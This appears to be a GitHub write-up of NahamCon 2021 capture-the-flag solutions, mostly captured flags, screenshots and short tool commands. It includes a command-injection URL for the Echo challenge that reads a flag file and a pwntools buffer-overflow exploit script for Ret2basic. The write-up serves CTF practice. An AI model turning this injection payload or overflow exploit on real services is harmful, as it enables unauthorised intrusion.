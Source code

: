 # NahamCon CTF

#### Rules Source code
```flag{90bc54705794a62015369fd8e86e557b}```

### Nahamcon2021
```flag{e36bc5a67dd2fe5f33b62123f78fbcef}```

### Echo
http://challenge.nahamcon.com:30192/?echo=`%3C../flag.txt`

```flag{1beadaf44586ea4aba2ea9a00c5b6d91}```

### Homeward Bound

![image](https://user-images.githubusercontent.com/1076452/111000058-25d8db00-8360-11eb-9b99-3a045d6fd1f2.png)

![image](https://user-images.githubusercontent.com/1076452/111000087-30937000-8360-11eb-998c-07f49f530a66.png)

```flag{26080a2216e95746ec3e932002b9baa4}```

### Shoelaces

strings shoelaces.jpg | grep flag

```flag{137288e960a3ae9b148e8a7db16a69b0}```

### Pollex

binwalk --dd='.*' pollex

![image](https://user-images.githubusercontent.com/1076452/111015405-6435c080-8387-11eb-8b51-a97ce86ac290.png)

```flag{65c34a1ec121a286600ddd48fe36bc00}```

### Ret2basic

```
#!/usr/bin/python
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./ret2basic')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./ret2basic', gdbscript=gs)
    if args.REMOTE:
        return remote('challenge.nahamcon.com', 30413)
    else:
        return process('./ret2basic')
r = start()
#========= exploit here ===================
win = 0x401215
#ret = 0x40133b
payload = "A" * 120
#payload += p64(ret)
payload += p64(win)
r.sendlineafter(": ",payload)

#========= interactive ====================
r.interactive()
```

![image](https://user-images.githubusercontent.com/1076452/111002592-810ccc80-8364-11eb-9f58-0ca4bb807ed0.png)

### esab64

cat esab64 | rev | base64 -d | rev

```flag{fb5211b498afe87b1bd0db601117e16e}```

### Resourceful

![image](https://user-images.githubusercontent.com/1076452/111007125-e1077100-836c-11eb-9a10-edb11904272d.png)

![image](https://user-images.githubusercontent.com/1076452/111007090-cf25ce00-836c-11eb-989e-3e9f1d579b6c.png)

![image](https://user-images.githubusercontent.com/1076452/111007110-da78f980-836c-11eb-9510-ce5ad11a8954.png)

```flag{7eecc051f5cb3a40cd6bda40de6eeb32}```

### Chicken wings 

https://lingojam.com/WingDing

```flag{e0791ce68f718188c0378b1c0a3bdc9e}```

### Andra

![image](https://user-images.githubusercontent.com/1076452/111007452-a9e58f80-836d-11eb-8fcb-2b86f03bf057.png)

![image](https://user-images.githubusercontent.com/1076452/111007468-b2d66100-836d-11eb-91b5-ac0fed2e04a5.png)

![image](https://user-images.githubusercontent.com/1076452/111007499-b833ab80-836d-11eb-892e-e2854621be02.png)

```flag{d9f72316dbe7ceab0db10bed1a738482}```

### Merch Store

Source code merch store

```flag{fafc10617631126361c693a2a3fce5a7} ```

## Mission

Source code

![image](https://user-images.githubusercontent.com/1076452/111015203-6ea38a80-8386-11eb-833a-647bffe6b2b6.png)

```flag{48e117a1464c3202714dc9a350533a59}```

### Bionic

![image](https://user-images.githubusercontent.com/1076452/111012004-27170180-837a-11eb-8aa6-8f0434726b1b.png)

### Meet The Team

https://github.com/internetwache/GitTools

https://constellations.page/.git/

git show

![image](https://user-images.githubusercontent.com/1076452/111013989-719b7c80-8380-11eb-9d8b-719daeb8cbe1.png)


### Gus

![image](https://user-images.githubusercontent.com/1076452/111011972-ffc03480-8379-11eb-8996-25197d69882c.png)


### Hercules

![image](https://user-images.githubusercontent.com/1076452/111013207-5da24b80-837d-11eb-94b6-fa2ce6b44d39.png)

### Lyra

![image](https://user-images.githubusercontent.com/1076452/111014284-c986b300-8381-11eb-86a2-847f0693ee78.png)

![image](https://user-images.githubusercontent.com/1076452/111014303-de634680-8381-11eb-85ee-3b94b44dac07.png)

![image](https://user-images.githubusercontent.com/1076452/111014312-ea4f0880-8381-11eb-9bfb-d8e0a0ae7060.png)

### Orion

https://twitter.com/OrionMorra/status/1363789936219082756

![image](https://user-images.githubusercontent.com/1076452/111014551-ea9bd380-8382-11eb-9418-a6b223bd1c13.png)






